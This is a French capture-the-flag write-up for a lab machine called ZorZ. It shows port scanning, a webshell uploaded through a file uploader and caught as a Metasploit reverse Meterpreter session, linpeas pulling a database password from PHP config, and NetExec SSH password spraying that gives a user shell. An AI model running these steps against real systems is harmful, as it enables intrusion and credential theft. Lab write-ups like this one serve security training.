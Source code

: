 # ZorZ

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u53@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.165
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.165...100%
[+] Scan Nmap 192.168.56.165...100%
 
[+] 80/tcp open
[+] 22/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.165-tcp.html       |
==========================================================
```

&nbsp;

Le serveur est un `uploader` de fichier

![Capture du 2025-03-16 17-27-58](https://github.com/user-attachments/assets/690207a6-602d-46b7-9ec6-c231491a6990)

&nbsp;

**<span style="color: #dddddd;">💥</span> Metasploit - webshell**

Connexion  la webshell

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 192.168.56.149:4444 
[*] Sending stage (40004 bytes) to 192.168.56.165
[*] Meterpreter session 1 opened (192.168.56.149:4444 -> 192.168.56.165:52845) at 2025-03-16 17:27:25 +0100

(Meterpreter 1)(/var/www/html/uploads3) >
```

&nbsp;

&nbsp;<span style="color: #dddddd;">🤖</span> **Linpeas**

Voyons si `linpeas` trouve des mots de passe

```
www-data@zorz:/tmp$ sh linpeas.sh

╔══════════╣ Searching passwords in config PHP files
$dbpass='toor2600root';
$dbuser='phpmyadmin';

```

&nbsp;

Énumération des utilisateurs

```
www-data@zorz:/tmp$cat /etc/passwd | grep 'bin/bash'
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:user,,,:/home/user:/bin/bash
```

&nbsp;

**<span style="color: #dddddd;">🖥️</span> NetExec**

Test du mot de passe sur les 2 utilisateurs

```
┌─[m0rph3u53@parrot]─[~/Documents]
└──╼ $nxc ssh 192.168.56.165 -u user.txt -p 'toor2600root' --sudo-check
SSH         192.168.56.165  22     192.168.56.165   [*] SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2
SSH         192.168.56.165  22     192.168.56.165   [-] root:toor2600root
SSH         192.168.56.165  22     192.168.56.165   [+] user:toor2600root (Pwn3d!) Linux - Shell access!

```

&nbsp;

Identifiant trouver

| Users | Password |
| --- | --- |
| user | toor2600root |

&nbsp;

&nbsp;

&nbsp;

&nbsp;
